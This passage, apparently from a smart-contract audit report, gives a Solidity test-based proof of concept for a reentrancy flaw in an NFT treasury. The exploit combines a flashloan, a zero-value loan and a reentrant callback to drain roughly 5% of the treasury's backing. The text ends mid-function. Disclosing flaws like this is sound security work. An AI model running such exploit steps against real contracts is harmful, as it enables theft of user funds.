 The following PoC shows how this can be combined with a flashloan to steal ~5% of the backing.

**Proof of Concept:**

The full PoC for this finding can be found at [\textit{this link}](https://gist.github.com/gogotheauditor/3d7b0778bd8e4a863c8f56a020f43a02).

\pagebreak

```solidity
function test_Proof_of_Concept_C2() external {
    // 1. Users mint all NFTs from the NTLC collection.
    _helperMintNTLC(users, 1000);

    // 2. 950 NFTs are redeemed for their real floor value using the Treasury contract.
    vm.startPrank(users);
    for (uint256 i = 0; i < 950; i++) {
        collection.approve(address(treasury), i);
        treasury.redeemItem(i);
    }
    vm.stopPrank();

    assertEq(treasury.float(), 1000 - 950);
    assertEq(collection.balanceOf(address(treasury)), 950);

    // 3. Cache the current state before the exploit is executed.
    _helperCacheBalances(0);

    // 4. We (the attacker) take a flashloan to purchase 50 NFTs from the Treasury.
    uint256 flashLoanAmount = 150e18;
    _helperDealWETH(address(this), flashLoanAmount);
    weth.approve(address(treasury), flashLoanAmount);

    for (uint256 i = 0; i < 50; i++) {
        treasury.purchaseItem(i);
    }

    // 5. Then, we take a loan for 0 WETH providing the 100 NFTs as collateral.
    uint256[] memory ids = new uint256[](50);
    for (uint256 i = 0; i < 50; i++) {
        collection.approve(address(treasury), i);
        ids[i] = i;
    }
    treasury.receiveLoan(ids, 0 ether, 0 seconds);

    // 6. Pay loan back and execute the reentrancy (see `onERC721Received`).
    reentrancyC2 = true;
    reentrancyTarget = 50;

    treasury.payLoanBack(0, 0);

    // 8. Now sell (redeem) all NFTs at the higher price.
    for (uint256 i = 0; i < 100; i++) {
        collection.approve(address(treasury), i);
        treasury.redeemItem(i);
    }

    // 9. Finally, we pay the flash loan back and log results.
    weth.transfer(address(0), flashLoanAmount);

    _helperCacheBalances(1);
    _helperLogBalances();
}


function onERC721Received(address, address, uint256, bytes calldata) external returns (bytes4) {
```